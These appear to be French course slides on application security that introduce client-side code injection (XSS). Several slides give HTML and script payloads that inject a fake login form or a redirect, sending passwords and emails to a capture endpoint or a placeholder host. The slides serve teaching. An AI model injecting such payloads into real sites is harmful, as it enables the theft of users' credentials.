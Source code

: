 -----


### L'injection de code... côté client !
Et si j'écrit dans le formulaire :
```
<form action="https://securite-applicative.free.beeceptor.com" >Entrez votre mot de passe : <input type="password" name="password" /><button type="submit" formtarget="_blank">Me connecter</button></form>
```


Que se passe-t-il ici ? : https://beeceptor.com/console/securite-applicative

-----


### L'injection de code... côté client !
Déclinable à souhait...
```
<button onclick="window.location='https://securite-applicative.free.beeceptor.com'" >Continuer</button>
```

-----


### L'injection de code "côté client"
On peut forcer un utilisateur a provoquer ces modifications du DOM ou tout autre action
- En le redirigeant sur la page avec des paramètres de requete trafiqués
- En stockant en base un code qui va être réaffiché

-----


### L'injection de code "côté client"
- On peut ainsi rajouter ce genre de code sur la page de l'utilisateur
```html
<script>document.location="https://no.domain"</script>
```
```html
<script>
document.getElementsByTagName("body")[0].innerHTML("
<form action='https://no.domain' >
<br>Connectez vous !<br>
<input type='text' name='email'>
<input type='password' name='mot de passe'>
<input type='submit' value='Connexion'>
</form>
")
</script>
```

-----

## L'injection de code "côté client" : XSS (Cross-Site Scripting)
